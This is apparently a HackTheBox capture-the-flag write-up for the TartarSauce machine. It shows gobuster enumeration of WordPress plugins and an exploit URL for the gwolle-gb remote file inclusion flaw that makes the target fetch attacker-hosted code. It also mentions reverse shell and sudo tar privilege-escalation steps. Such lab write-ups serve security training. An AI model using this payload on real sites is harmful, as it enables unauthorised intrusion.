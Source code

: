 ## Web Enumeration
We could check the `/webservices/wp` directory and find out that it is running `wordpress`.
Here, We may use `wpscan` to enumerate plugins but, `wpscan` does not work nicely for me. So, Here I will be using `/usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt` a `Seclists` wordlist for wordpress plugin enumeration.

```
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/tartarsauce]
└──╼ # gobuster dir -u http://10.10.10.88/webservices/wp/ -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.88/webservices/wp/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/06 02:13:00 Starting gobuster in directory enumeration mode
===============================================================
/wp-content/plugins/akismet/ (Status: 200) [Size: 0]
/wp-content/plugins/gwolle-gb/ (Status: 200) [Size: 0]
/wp-content/plugins/hello.php (Status: 500) [Size: 0] 
/wp-content/plugins/hello.php/ (Status: 500) [Size: 0]
                                                      
===============================================================
2021/07/06 02:14:47 Finished
===============================================================
```

Here, We find out that it has `gwolle-gb` installed which happens to have an `RFI` vulnerability.


# Initial FootHold as www-data
On visiting `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.18/`, We find out that it is trying to fetch a file called `wp-load.php` from our box.
![[Pasted image 20210706022144.png]]

We would have to create a malicious file containing a reverse shell to set a shell onto the box.

We get a shell on the box as `www-data`.
![[Pasted image 20210706022351.png]]

# User Escalation to onuma
We do a simple `sudo -l` and find out that we have a sudo nopasswd authorization to run a tar command.
A simple `GTFObins` visit is all it takes to escalate our privileges.
![[Pasted image 20210706022704.png]]
